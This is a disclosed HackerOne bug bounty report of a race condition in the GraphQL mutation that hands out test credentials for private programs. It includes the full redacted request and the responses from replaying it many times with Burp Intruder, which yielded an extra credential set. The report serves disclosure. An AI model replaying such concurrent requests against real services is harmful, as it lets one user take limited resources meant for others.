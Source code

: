 # Race condition in claiming program credentials 

## Report Details
- **Report ID**: 488985
- **URL**: https://hackerone.com/reports/488985
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-01-31T07:50:00.085Z
- **Disclosed**: 2019-05-19T18:23:48.173Z

## Reporter
- **Username**: flashdisk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Hi,

**Summary:**
I was invited to a private program and I tried to get test credentials so a request as follows was sent to your server:

```
POST /graphql HTTP/1.1
Host: hackerone.com
Connection: close
Content-Length: 778
Accept: */*
X-Auth-Token: ████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Origin: https://hackerone.com
Content-Type: application/json
Referer: https://hackerone.com/█████
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,he;q=0.8
Cookie: __cfduid=███████; _cfuid=███████; _ga=████; _mkto_trk=id:████████

{"query":"mutation Claim_credential_mutation($input_0:ClaimCredentialInput!,$types_1:[ErrorTypeEnum]!,$first_2:Int!) {claimCredential(input:$input_0) {clientMutationId,...F4,...F5}} fragment F0 on Team {id,claimed_credential {credentials,account_details,id}} fragment F1 on Node {id} fragment F2 on ResourceInterface {...F0,...F1} fragment F3 on Team {id} fragment F4 on ClaimCredentialPayload {team {id,...F2,...F3}} fragment F5 on ClaimCredentialPayload {team {claimed_credential {id},id},was_successful,_errors4fkckF:errors(types:$types_1,first:$first_2) {edges {node {type,field,message,id},cursor},pageInfo {hasNextPage,hasPreviousPage}}}","variables":{"input_0":{"team_id":"█████=","clientMutationId":"1"},"types_1":"ARGUMENT","first_2":100}}
```

and I then sent this request to burp suite intruder and got 22 responses , 21 of them had the same response as this:

```
{"data":{"claimCredential":{"clientMutationId":"1","team":{"claimed_credential":{"id":"██████████","credentials":{"email":"██████","password":"███████","private_id":"██████"},"account_details":null},"id":"██████="},"was_successful":false,"_errors4fkckF":{"edges":[],"pageInfo":{"hasNextPage":false,"hasPreviousPage":false}}}}}
```

and the last one was holding a different set of credentials as this:

```
{"data":{"claimCredential":{"clientMutationId":"1","team":{"claimed_credential":{"id":"███████","credentials":{"email":"████████","password":"███████","private_id":"███"},"account_details":null},"id":"██████████="},"was_successful":true,"_errors4fkckF":{"edges":[],"pageInfo":{"hasNextPage":false,"hasPreviousPage":false}}}}}
```

in this case I was able to have multiple test credentials and maybe block another user from getting a test account if the program provided a limited amount of test accounts.


thanks!

## Impact

claiming multiple credentials for the same user

## Attachments
No attachments
